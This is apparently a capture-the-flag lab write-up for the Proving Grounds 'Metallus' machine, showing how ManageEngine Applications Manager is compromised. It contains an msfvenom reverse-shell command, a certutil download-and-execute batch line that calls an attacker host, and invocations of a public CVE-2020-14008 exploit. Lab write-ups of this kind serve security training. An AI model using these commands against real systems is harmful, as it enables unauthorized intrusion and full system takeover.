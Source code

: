 ```yaml
---
description: Proving Grounds PG Practice Metallus writeup
---
```


# Metallus

## Nmap

```
sudo nmap 192.168.203.96 -p- -sS -sV                  

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
12000/tcp open  cce4x?
22222/tcp open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
40443/tcp open  unknown
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  tcpwrapped
49693/tcp open  java-rmi      Java RMI
49718/tcp open  unknown
49796/tcp open  unknown
49797/tcp open  unknown
4 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

Enumerating the ports we have 40443 which has produced no information from Nmap. Browsing to the port in a browser reveals a login page: [http://192.168.100.96:40443/index.do](http://192.168.100.96:40443/index.do)

![](<../../../.gitbook/assets/image (1001).png>)

We can see from the footer of the page the software is Applications Manager (Build No:14700). I was able to login with a guess on the credentials `admin:admin`.

![](<../../../.gitbook/assets/image (1002).png>)

The target application has what are called 'Actions' which allows certain scripts and files to be executed when a certain parameter is met. To take advantage of this first we can head to **Admin > Upload Files / Binaries** to upload a `cmd` command.

Before we upload we first need to create a `msfvenom` reverse shell.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=443 -f exe -o reverse.exe
```

After this has completed we need to then create a batch file as only batch files and scripts are executed from the _Actions_ on the target web server.

Create a batch command to the following:

```bash
certutil.exe -f -urlcache -split http://<IP>/reverse.exe c:\windows\temp\reverse.exe && cmd.exe /c c:\windows\temp\reverse.exe
```

Ensuring the bottom most options for '**Upload Script to \<Product\_Home>/working/**' is selected.

![](<../../../.gitbook/assets/image (1955).png>)

After upload head over to **Actions > Execute Program** Then create a new Action as per the screenshot below:

![](<../../../.gitbook/assets/image (1956).png>)

After creation set up a `netcat` listener to the specified port in the `msfvenom` command then start a Python\*\* SimpleHTTPServer\*\* on the attacking machine to the directory of the `msfvenom` reverse.exe file. After completing this head over to\*\* Actions > View Actions\*\* and manually execute the script under the **Execute** tab.

We should see where the script downloads the reverse.exe from the Python **SimpleHTTPServer**.

![](<../../../.gitbook/assets/image (1957).png>)

And soon after when the scripts executes the reverse.exe we should land a SYSTEM shell.

![](<../../../.gitbook/assets/image (1958).png>)

An alternative solution leveraging \*\*CVE:2020-14008 \*\*for a more scripted solution abusing JAR files.

**Description:**

Zoho ManageEngine Applications Manager 14710 and before allows an authenticated admin user to upload a vulnerable jar in a specific location, which leads to remote code execution.

\*\*Reference: \*\*[https://nvd.nist.gov/vuln/detail/CVE-2020-14008](https://nvd.nist.gov/vuln/detail/CVE-2020-14008)

Searching for exploits with searchsploit shows a RCE for build 14700.

![](<../../../.gitbook/assets/image (1003) (1).png>)

{% embed url="https://www.exploit-db.com/exploits/48793" %}

The syntax for the exploit script is shown below:

```bash
python3 48793.py <url> <username> <password> <reverse_shell_host> <reverse_shell_port>
python3 48793.py http://<IP>:40443 admin admin <Attacker-IP> 443
```

![](<../../../.gitbook/assets/image (1959).png>)

After execution we should have another SYSTEM shell.

![](<../../../.gitbook/assets/image (1960).png>)
